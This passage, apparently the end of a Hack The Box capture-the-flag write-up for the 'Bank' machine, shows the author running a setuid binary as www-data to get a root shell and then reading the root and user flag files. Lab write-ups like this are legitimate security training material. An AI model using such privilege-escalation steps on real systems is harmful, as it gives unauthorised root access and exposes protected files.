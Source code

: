If we run it we get a shell as root :)
```
www-data@bank:/$ /var/htb/bin/emergency
/var/htb/bin/emergency
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
```
# cat /root/root.txt
cat /root/root.txt
d5be56adc67b4...
```
```
# cat /home/chris/user.txt
cat /home/chris/user.txt
37c97f8609f3...
```

Thanks for reading and you can find me here on Twitter: https://twitter.com/electronicbots
